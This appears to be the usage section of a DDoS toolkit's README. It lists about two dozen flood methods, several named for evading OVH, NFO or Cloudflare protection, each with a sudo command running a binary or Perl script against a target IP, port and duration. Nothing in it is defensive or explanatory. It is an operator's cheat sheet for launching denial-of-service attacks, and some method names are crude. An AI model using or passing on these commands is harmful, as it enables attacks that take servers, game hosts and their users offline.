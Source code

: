 How to use :

SSA : sudo ./ssa (ip)

ETC : sudo ./etc (ip) (port)

OVH : sudo ./ovh %ip% %port% %time% 0 %time%

OVH-V2 : sudo ./ovhbypass2 %ip% %port% %time% udp

STD : sudo ./STD-NOSPOOF %ip% %port%

STCP : sudo ./STCP %ip% %port% 10 -1 %time% ack

HEX : sudo ./HEX OVH %ip% %port% %time%

NUKE-BYPASS : sudo ./HiperOVH %ip% %port%

CLOUDFLARE : sudo ./cloudflare %ip% 10 -1 %time%

ETHERA : sudo ./ETHERA %ip% %port%

CPU-SURGE : sudo ./CPU-SURGE TCP %ip% %port% %time%

VALID-SYN : sudo ./WRA %ip% %port% 10 -1 %time%

R4P3 : sudo ./gre %ip% 10 -1 %time%

NFO : sudo ./NFO %ip% %port% 10 -1 %time%

UDP-BYPASSV2 : sudo perl UDP-BYPASS-V2.pl %ip% %port% 5500 %time%

UDP-BYPASS : sudo perl UDP-BYPASS.pl %ip% %time%

NULL : sudo perl UDP_NULL.pl %ip% %time%

PATH : sudo perl UDP_BPSS.pl %ip% %port% 5500 %time%

UDP-MIX : sudo perl UDP_MIX.pl %ip% %time%

TCP_NUKE : sudo perl TCP_VOX.pl %ip% %time%

OVH-RAPE : sudo perl OVHBYPASS.pl %ip% %port% %time%

GAME : sudo ./GAME-CRASH %ip% %port%

AMP : sudo perl amp.pl %ip% %port% 5500 %time%

Twiks : sudo ./Twiks %ip% %port%

35 : sudo perl 35.pl %ip% %port% 1000 300

korkut : sudo ./korkut2 %ip% %port% 10 -1 %time%
